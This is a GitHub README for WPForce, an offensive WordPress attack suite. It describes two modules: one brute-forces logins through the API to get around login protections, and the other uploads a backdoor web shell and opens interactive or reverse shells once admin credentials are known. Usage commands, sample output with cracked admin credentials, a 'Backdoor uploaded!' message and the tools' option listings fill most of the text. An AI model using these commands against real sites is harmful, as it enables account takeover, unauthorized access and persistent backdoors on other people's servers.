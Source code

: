# WPForce - Wordpress Attack Suite
![alt tag](https://github.com/n00py/WPForce/blob/master/turtledoge.jpg)

## ABOUT:
WP Force is a suite of Wordpress Attack tools.  Currently this contains 2 modules - WPForce, which brute forces logins via the API, and Yertle, which uploads shells once admin credentials have been found.
## FEATURES:
* Brute Force via API, not login form bypassing some forms of protection
* Can automatically upload an interactive shell
* Can be used to spawn a full featured reverse shell


## INSTALL:
```
Yertle requires the requests libary to run.
http://docs.python-requests.org/en/master/user/install/
```

## USAGE:
```
python wpforce.py -i usr.txt -w pass.txt -u "http://www.[website].com"

   ,-~~-.___.       __        __ ____   _____
  / |  x     \      \ \      / /|  _ \ |  ___|___   _ __  ___  ___
 (  )        0       \ \ /\ / / | |_) || |_  / _ \ | '__|/ __|/ _ \.
  \_/-, ,----'  ____  \ V  V /  |  __/ |  _|| (_) || |  | (__|  __/
     ====      ||   \_ \_/\_/   |_|    |_|   \___/ |_|   \___|\___|
    /  \-'~;   ||     |
   /  __/~| ...||__/|-"   Brute Force Attack Tool for Wordpress
 =(  _____||________|                 ~n00py~

Username List: usr.txt (3)
Password List: pass.txt (21)
URL: http://www[website].com
--------------------------
[xxxxxxxxxxxxx@gmail.com : xxxxxxxxxxxxx] are valid credentials!  - THIS ACCOUNT IS ADMIN
--------------------------
--------------------------
[xxxxxxxxxxxxx@icloud.com : xxxxxxxxxxxx] are valid credentials!
--------------------------
 100% Percent Complete
All correct pairs:
{'xxxxxxxxxxxxx@icloud.com': 'xxxxxxxxxxxxx', 'xxxxxxxxxxxxx@gmail.com': 'xxxxxxxxxxxxx'}

 -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Input file name
  -w WORDLIST, --wordlist WORDLIST
                        Wordlist file name
  -u URL, --url URL     URL of target
  -v, --verbose         Verbose output. Show the attemps as they happen.
  -t THREADS, --threads THREADS
                        Determines the number of threads to be used, default
                        is 10
  -a AGENT, --agent AGENT
                        Determines the user-agent
  -d, --debug           This option is used for determining issues with the
                        script.


python yertle.py -u "[username]" -p "[password]" -t "http://www.snarlsburg.com" -i
     _..---.--.    __   __        _   _
   .'\ __|/O.__)   \ \ / /__ _ __| |_| | ___
  /__.' _/ .-'_\    \ V / _ \ '__| __| |/ _ \.
 (____.'.-_\____)    | |  __/ |  | |_| |  __/
  (_/ _)__(_ \_)\_   |_|\___|_|   \__|_|\___|
   (_..)--(.._)'--'         ~n00py~
      Post-exploitation Module for Wordpress

Backdoor uploaded!
Upload Directory: ebwhbas
os-shell>



  -h, --help            show this help message and exit
  -i, --interactive     Interactive command shell
  -r, --reverse         Reverse Shell
  -t TARGET, --target TARGET
                        URL of target
  -u USERNAME, --username USERNAME
                        Admin username
  -p PASSWORD, --password PASSWORD
                        Admin password
  -li IP, --ip IP       Listener IP
  -lp PORT, --port PORT
                        Listener Port
  -v, --verbose         Verbose output.
  -e EXISTING, --existing EXISTING
                        Skips uploading a shell, and connects to existing
                        shell


```
